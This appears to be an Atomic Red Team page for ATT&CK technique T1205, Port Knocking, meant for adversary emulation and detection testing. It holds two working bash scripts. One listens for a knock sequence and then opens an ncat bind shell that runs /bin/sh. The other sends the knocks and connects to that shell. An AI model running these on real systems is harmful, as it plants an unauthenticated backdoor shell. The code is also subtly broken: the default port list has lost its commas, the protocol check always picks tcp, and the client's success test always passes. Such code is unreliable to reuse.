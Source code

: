 # T1205 - Port Knocking
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1205)
<blockquote>Port Knocking is a well-established method used by both defenders and adversaries to hide open ports from access. To enable a port, an adversary sends a series of packets with certain characteristics before the port will be opened. Usually this series of packets consists of attempted connections to a predefined sequence of closed ports, but can involve unusual flags, specific strings or other unique characteristics. After the sequence is completed, opening a port is often accomplished by the host based firewall, but could also be implemented by custom software. 

This technique has been observed to both for the dynamic opening of a listening port as well as the initiating of a connection to a listening server on a different system.

The observation of the signal packets to trigger the communication can be conducted through different methods. One means, originally implemented by Cd00r (Citation: Hartrell cd00r 2002), is to use the libpcap libraries to sniff for the packets in question. Another method leverages raw sockets, which enables the malware to use ports that are already open for use by other programs.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Bind Shell After Sequence of Port Knocks - Server](#atomic-test-1---bind-shell-after-sequence-of-port-knocks---server)

- [Atomic Test #2 - Bind Shell After Sequence of Port Knocks - Client](#atomic-test-2---bind-shell-after-sequence-of-port-knocks---client)


<br/>

## Atomic Test #1 - Bind Shell After Sequence of Port Knocks - Server
Listen for a sequence of packets on specific ports for a specific protocol.  After the the sequence is received, create bind shell on a new listening port.

Note: This may be used in conjunction with the client.

**Supported Platforms:** Linux


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| knock_protocol | Protocol for knock - tcp or udp | String | udp|
| knock_port_sequence | CSV of UDP ports that define a knock | String | 400004100040000420004000043000|
| listening_port | Port to start listening on after knock | String | 54321|
| max_listen_seconds | Maximum number of seconds to listen for sequence before stopping and to listen on opened port | Integer | 300|

#### Run it with `bash`!  Elevation Required (e.g. root or admin) 
```
TSHARK_FILTER=""
GREP_PATTERN=""
if [ "#{knock_protocol}" = "tcp" ] ; then
  PROTOCOL="tcp"
else
  PROTOCOL="tcp"
fi

for PORT in $(echo "#{knock_port_sequence}" | sed "s/,/ /g")
do
  if [ -z "$TSHARK_FILTER" ]
  then
    TSHARK_FILTER="($PROTOCOL dst port $PORT)"
    GREP_PATTERN="'$PORT'"
  else
    TSHARK_FILTER="$TSHARK_FILTER or ($PROTOCOL dst port $PORT)"
    GREP_PATTERN="$GREP_PATTERN(.*\n)*'$PORT'"
  fi
done
TSHARK_FILTER="($TSHARK_FILTER) and inbound"

echo -e "Listen for sequence for #{max_listen_seconds} seconds\n"
tshark -Q -l -n -f "$TSHARK_FILTER" -T fields -E quote=s -e $PROTOCOL.dstport -a duration:#{max_listen_seconds} > /tmp/t1205_server.dat 2> /dev/null & TSHARK_PID=$!

SEQUENCE_FOUND=false
COUNTER=0
while [ $COUNTER -lt #{max_listen_seconds} ]
do
  if grep -qPoz  "$GREP_PATTERN" /tmp/t1205_server.dat; then
    echo -e '\n\nSequence found...'
    SEQUENCE_FOUND=true
    kill $TSHARK_PID
    break
  fi
  sleep 1
done

if [ "$SEQUENCE_FOUND" = true ] ; then
  echo -e 'Start shell server; listen for up to #{max_listen_seconds} seconds\n\n'
  timeout #{max_listen_seconds}s ncat -nlp #{listening_port} -e /bin/sh
else
  echo 'Sequence not heard...'
fi
```


#### Cleanup Commands:
```
rm -f /tmp/t1205_server.dat
```

<br/>
<br/>

## Atomic Test #2 - Bind Shell After Sequence of Port Knocks - Client
Send a sequence of packets on specific ports for a specific protocol.  After the the sequence is send, attempt to connect to a bind shell on a new listening port.

Note: This may be used in conjunction with the server.

**Supported Platforms:** Linux


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | IP of server to knock | String | 127.0.0.1|
| knock_protocol | Protocol for knock - tcp or udp | String | udp|
| knock_port_sequence | CSV of UDP ports that define a knock | String | 400004100040000420004000043000|
| listening_port | Port the server will listen on after knock | String | 54321|

#### Run it with `bash`! 
```
SHELL_CONTACTED=false
for LOOP in {1..5} ;
do
  for PORT in $(echo "#{knock_port_sequence}" | sed "s/,/ /g")
  do
    if [ "#{knock_protocol}" = "udp" ] ; then
      echo -e "Knock\n" | ncat -u -w 1s #{server_ip} $PORT
    else
      echo -e "Knock\n" | ncat -w 1s #{server_ip} $PORT
    fi
    echo "Knock $PORT"
    sleep 0.5
  done
  echo -e "Anyone home?\n\n"

  sleep 2
  cat <(echo 'echo Shell to host $HOSTNAME as user $USER successful.'  && sleep 1) | ncat #{server_ip} #{listening_port} > /tmp/t1205_client.dat 2> /dev/null
  if [ -s /tmp/t1205_client.dat ] ; then
    SHELL_CONTACTED=true
    break
  else
    echo -e "Shell not there yet...\n\n"
  fi
done

if [ SHELL_CONTACTED ] ; then
  echo Shell successfully executed with port knock
  cat /tmp/t1205_client.dat
  exit 0
else
  echo Unable to bind shell with port knock
  exit 1
fi
```


#### Cleanup Commands:
```
rm -f /tmp/t1205_client.dat
```

<br/>
